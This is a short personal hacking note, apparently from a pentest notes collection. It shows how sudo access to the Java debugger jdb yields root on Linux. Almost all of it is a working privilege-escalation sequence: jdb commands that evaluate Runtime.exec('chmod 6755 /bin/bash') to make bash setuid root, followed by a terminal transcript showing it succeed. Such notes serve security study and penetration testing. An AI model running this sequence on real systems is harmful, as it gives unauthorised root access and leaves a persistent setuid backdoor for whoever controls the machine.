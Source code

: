 # java jdb execute commands
```
stop on Main.main
run
eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
cont
```
```
user@hostname:~$ sudo /usr/bin/jdb -classpath /root/ Main
Initializing jdb ...
> stop on Main.main
Deferring breakpoint Main.main.
It will be set after the class is loaded.
> run
run Main
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
>
VM Started: Set deferred breakpoint Main.main

Breakpoint hit: "thread=main", Main.main(), line=5 bci=0
5               System.out.println("Hello World!");

main[1] eval java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash");
 java.lang.Runtime.getRuntime().exec("chmod 6755 /bin/bash"); = "Process[pid=3332, exitValue="not exited"]"
main[1] cont
> Hello World!

The application exited
```

` zet/20221003150292/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    #command
